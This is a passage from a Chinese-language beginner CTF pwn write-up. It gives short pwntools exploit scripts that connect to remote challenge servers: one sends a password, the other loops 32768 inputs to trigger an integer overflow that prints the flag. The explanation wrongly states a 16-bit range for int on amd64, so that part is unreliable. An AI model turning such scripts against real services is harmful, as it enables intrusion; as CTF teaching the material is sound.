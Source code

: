 双击py文件进去编写脚本

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698607428-a2e80770-e9b2-4613-b3be-ee8a1321f9e5.png)

这基本上算是模板了，具体每一句是干嘛的查看pwntools的使用

<h3 id="d752fc47">本题exp：</h3>
```plain
from pwn import *
context(log_level="debug",arch='amd64',os="linux")
#p =process("./door")
p=remote("39.106.57.152",30756)

p.recvuntil("password: ")
p.sendline(b'7038329')

p.interactive()
```

写好了python3执行

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698607554-52bf34e3-5acc-4095-8a72-ed9c993cd73f.png)

拿到flag

<h2 id="a22d01fc">题目3</h2>
依旧固定步骤

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698607612-ab895381-d4c8-4a4e-8922-bf69a4f5615a.png)

Ida查看func函数逻辑

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698607687-70e4a0c7-f258-4ed5-bff2-a087157f41da.png)

先让我们输入v2，v2不能小于0，然后每次循环v1都会自增，v1小于0时就能直接执行system("cat flag")拿到flag

但是v1初始是0还不断增加，怎么可能小于0呢？？？

注意看v1是int类型，int类型数的范围是<font style="color:rgb(143,149,158);">-32768~32767；(即-2^15~2^15-1)</font>

所以当v1增加到32768其实是等于-32768**（原理请学习整数溢出）**，这样就满足条件了

<h3 id="d752fc47-1">本题exp：</h3>
```plain
from pwn import *
context(log_level="debug", arch="amd64", os="linux")
#p = process("./INTbug")
p = remote("8.147.132.32",39721)


for _ in range (32768):
    p.sendline(b'1')
    

p.interactive()
```
